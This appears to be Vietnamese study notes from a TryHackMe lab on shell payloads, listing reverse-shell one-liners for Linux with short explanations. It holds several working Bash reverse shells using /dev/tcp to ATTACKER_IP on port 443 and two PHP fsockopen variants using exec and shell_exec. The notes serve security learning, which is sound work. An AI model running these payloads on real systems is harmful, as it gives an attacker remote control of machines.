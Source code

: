 

#### **Tải trọng của vỏ đạn(Shell Payloads)**

Shell Payload có thể là lệnh hoặc tập lệnh cho phép shell tiếp cận kết nối đến trong trường hợp shell liên kết hoặc kết nối gửi trong trường hợp shell đảo ngược.

Hãy cùng khám phá một số payload có thể được sử dụng trong hệ điều hành Linux để hiển thị shell thông qua shell ngược phổ biến nhất .



###### **Đập(Bash)**

**Bash Reverse Shell thông thường(Normal Bash Reverse Shell)**

**target@tryhackme:~$ bash -i >\& /dev/tcp/ATTACKER\_IP/443 0>\&1**

Shell đảo ngược này  khởi tạo một **shell bash** tương tác, chuyển hướng đầu vào và đầu ra thông qua kết nối TCP đến IP của kẻ tấn công **( ATTACKER\_IP )** trên cổng **443**. **>\&** Toán tử kết hợp cả đầu ra chuẩn và lỗi chuẩn.



**Bash Đọc Dòng Đảo  Ngược Shell(Bash Read Line Reverse Shell)**

**target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER\_IP/443; cat <\&5 | while read line; do $line 2>\&5 >\&5; done**

Shell đảo ngược này  tạo một mô tả tệp mới ( **5** trong trường hợp này) và kết nối với một socket TCP . Nó sẽ đọc và thực thi các lệnh từ socket, gửi đầu ra trở lại qua cùng socket đó.



**Bash với File Descriptor 196  Reverse Shell(Bash With File Descriptor 196 Reverse Shell)**

**target@tryhackme:~$ 0<\&196;exec 196<>/dev/tcp/ATTACKER\_IP/443; sh <\&196 >\&196 2>\&196**

Shell đảo ngược này  sử dụng một mô tả tệp ( **196** trong trường hợp này) để thiết lập kết nối TCP . Nó cho phép shell đọc lệnh từ mạng và gửi đầu ra trở lại thông qua cùng một kết nối.



**Bash với File Descriptor 5  Reverse Shell(Bash With File Descriptor 5 Reverse Shell)**

**target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER\_IP/443 0<\&5 1>\&5 2>\&5**

Tương tự như ví dụ đầu tiên, lệnh này mở một shell **( bash -i)**, nhưng sử dụng mô tả tệp **5** để nhập và xuất, cho phép phiên tương tác qua kết nối TCP .



###### **PHP**

**PHP Reverse Shell sử dụng hàm exec**

**target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER\_IP",443);exec("sh <\&3 >\&3 2>\&3");'**

Shell đảo ngược này  tạo ra một kết nối socket tới IP của kẻ tấn công trên cổng **443** và sử dụng  **exec** hàm này để thực thi shell, chuyển hướng đầu vào và đầu ra chuẩn.



**PHP Reverse Shell sử dụng hàm shell\_exec**

**target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER\_IP",443);shell\_exec("sh <\&3 >\&3 2>\&3");'**
